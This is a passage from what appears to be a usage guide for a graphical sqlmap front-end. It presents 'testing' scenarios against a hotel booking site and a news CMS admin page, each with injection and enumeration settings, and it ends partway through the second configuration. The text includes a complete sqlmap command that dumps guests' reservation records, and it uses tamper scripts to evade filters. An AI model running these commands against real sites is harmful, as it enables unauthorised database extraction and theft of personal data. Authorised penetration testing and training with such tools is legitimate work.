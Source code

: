 **Configuration:**
```
Target Tab:
├── URL: https://hotel.com/availability.php?checkin=2024-02-01&checkout=2024-02-05&rooms=2
├── Method: GET
├── Cookie: booking_session=guest_user
└── Random Agent: ✓

Injection Tab:
├── Testable Parameters: checkin,checkout,rooms
├── DBMS: PostgreSQL
├── Union Columns: 8
├── Union Character: NULL
└── Union Test All: ✓

Detection Tab:
├── Level: 3
├── Risk: 2
├── Techniques: U (UNION only)
└── Time Delay: 2

Enumeration Tab:
├── Database: hotel_db
├── Table: reservations
├── Columns: guest_id,room_number,checkin_date,checkout_date,total_amount
├── Dump Table: ✓
└── Where: checkout_date > CURRENT_DATE
```

**Generated Command:**
```bash
sqlmap -u "https://hotel.com/availability.php?checkin=2024-02-01&checkout=2024-02-05&rooms=2" --cookie="booking_session=guest_user" --random-agent -p checkin,checkout,rooms --dbms=postgresql --union-cols=8 --union-char=NULL --union-test-all --level=3 --risk=2 --technique=U --time-sec=2 -D hotel_db -T reservations --columns --dump --where="checkout_date > CURRENT_DATE" --batch
```

## 📰 Media and Publishing Testing

### Scenario 8: News CMS Article Management
**Target:** Content management system for news articles
**Vulnerability:** Blind injection in article search

**Configuration:**
```
Target Tab:
├── URL: https://news.com/admin/articles.php?search=breaking&category=politics
├── Method: GET
├── Cookie: cms_admin_session=authenticated
└── User Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36

Detection Tab:
├── Level: 4
├── Risk: 2
├── Techniques: B (Boolean-based)
├── Time Delay: 1
└── Retries: 3

Injection Tab:
├── Testable Parameters: search,category
├── DBMS: MySQL
├── Tamper Scripts: space2comment,randomcase
└── Invalid Logical: ✓

Enumeration Tab:
```